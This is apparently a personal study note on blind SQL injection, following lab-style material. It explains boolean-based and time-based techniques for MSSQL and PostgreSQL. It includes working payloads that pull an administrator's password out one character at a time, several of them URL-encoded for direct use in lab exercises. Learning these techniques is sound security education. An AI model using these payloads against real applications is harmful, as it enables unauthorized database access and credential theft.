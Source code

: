 ## What is blind SQL Injection?

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as [[UNION SQLi]] are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. 

It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

---
## Boolean-based Blind SQLi

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

```http
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. 

However, the application does behave differently depending on whether the query returns any data. If you submit a recognized `TrackingId`, the query returns data and you receive a "Welcome back" message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

> [!example] Example 1. Blind SQL with Cookie TrackingId
> To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
> 
> ```sql
> …xyz' AND '1'='1 
> …xyz' AND '1'='2
> ```
> 
> - The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
> - The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
> 
> This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

> [!example] Example 2. Blind SQL against Password in DB
> For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.
> 
> To do this, start with the following input:
> 
> ```sql
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'
> ```
> 
> This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.
> 
> Next, we send the following input:
> 
> ```sql
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't'
> ```
> 
> This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
> 
> Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:
> 
> ```sql
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
> ```
> 
> We can continue this process to systematically determine the full password for the `Administrator` user.

> The `SUBSTRING` function is called `SUBSTR` on some types of database. For more details, see the SQL injection cheat sheet.

---
## Time-based Blind SQLi
If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors ([[Error-based SQLi]]) will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.

The techniques for triggering a time delay are specific to the type of database being used. 

> [!example] MsSQL Server example for Time-based SQLi
> For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:
> 
> ```sql
> '; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--
> ```
> 
> - The first of these inputs does not trigger a delay, because the condition `1=2` is false.
> - The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

> [!example] MsSQL Server Get DB password using Time-based blind SQLi
> Using this technique, we can retrieve data by testing one character at a time:
> 
> ```sql
> '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
> ```

> [!info]
> There are various ways to trigger time delays within SQL queries, and different techniques apply on different types of database. For more details, see the SQL injection cheat sheet.

> [!attention] URL Encoding
> Make sure to url encode your SQLi

> [!important] Lab Time-based blind SQLi using PostgreSQL
> Basic Test for time based blind SQLi:
> ```sql
> '; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
> ```
> Web encoded version:
> ```sql
> '%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--
> ```
> 
> Check if user exists:
> ```sql
> '; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
> ```
> Web encoded version:
> ```sql
> '%3B+SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
> ```
> 
> Test Password (Encoded version):
> ```sql
> '%3B+SELECT+CASE+WHEN+(SUBSTR(password,1,1)='a')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username='administrator'--
> ```

#security/web/sql 

